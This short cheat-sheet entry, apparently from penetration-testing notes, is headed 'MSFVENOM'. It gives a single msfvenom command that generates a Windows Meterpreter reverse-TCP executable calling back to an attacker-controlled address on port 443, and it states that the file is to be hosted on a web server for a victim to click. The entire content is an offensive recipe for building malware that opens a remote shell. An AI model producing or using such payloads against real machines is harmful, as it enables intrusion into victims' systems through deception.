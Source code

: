 # MSFVENOM

Create a malicious binary that we can host on a web server for a victim to click on:

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=443 -f exe -o maliciousfile.exe
```
